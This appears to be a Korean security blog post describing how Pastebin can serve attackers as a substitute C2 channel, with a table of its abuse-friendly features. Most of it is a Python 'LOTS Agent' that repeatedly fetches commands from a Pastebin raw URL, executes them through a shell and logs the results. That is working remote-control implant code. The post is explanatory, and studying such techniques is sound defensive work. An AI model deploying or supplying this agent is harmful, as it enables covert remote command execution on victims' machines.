 **Pastebin**은 개발자들이 텍스트나 코드를 임시로 공유할 수 있도록 만든 웹 기반 서비스이지만 이 단순한 기능이 공격자에게는 C2 기능을 대체할 수 있는 강력한 수단이 되기도 한다.

| 특징 | 설명 |
| ------------------- | -------------------------------------------------------------- |
| **비회원 작성 가능** | 계정 없이도 Paste를 생성할 수 있어 **익명성이 높음** |
|  **자동 만료 기능 지원** | 일정 시간이 지나면 자동으로 삭제되도록 설정 가능 (심지어 한번 읽으면 자폭하는 `Burn after read` 기능도 제공) |
| **공용 접근 가능** | 인터넷 상 누구나 Paste를 조회할 수 있어 **클라이언트 측에서 인증 없이도 접근 가능** |

간단히 구현해본 예시

```python
import requests
import subprocess
import time

import os
print("[*] 현재 작업 디렉토리:", os.getcwd())

# Pastebin에서 명령어를 가져오는 함수
def fetch_command_from_pastebin(paste_key):
    url = f"https://pastebin.com/raw/{paste_key}"  # raw 형식으로 가져오기
    try:
        response = requests.get(url, timeout=5)
        if response.status_code == 200:
            command = response.text.strip()
            print(f"[+] 명령어 수신: {command}")
            return command
        else:
            print("[!] Pastebin 응답 오류")
            return None
    except Exception as e:
        print(f"[!] Pastebin 접속 실패: {e}")
        return None

# 명령어를 실행하고 결과를 반환하는 함수
def execute_command(command):
    try:
        result = subprocess.check_output(command, shell=True, text=True)
        print(f"[+] 명령어 실행 결과: {result.strip()}")
        return result.strip()
    except subprocess.CalledProcessError as e:
        return f"[!] 실행 오류: {e}"

# 실행 결과를 파일에 저장하거나 다른 방식으로 처리 가능
def save_result(result):
    try:
        with open("result.txt", "a", encoding="utf-8") as f:
            f.write(result + "\n" + ("="*40) + "\n")
        print("[+] 결과 저장 완료")
    except Exception as e:
        print(f"[!] 결과 저장 실패: {e}")

# LOTS Agent 메인 루프
def lots_agent_loop(paste_key):
    print("[*] LOTS Agent 시작")
    seen_command = None
    while True:
        cmd = fetch_command_from_pastebin(paste_key)
        if cmd and cmd != seen_command:
            result = execute_command(cmd)
            save_result(result)
            seen_command = cmd  # 중복 실행 방지
```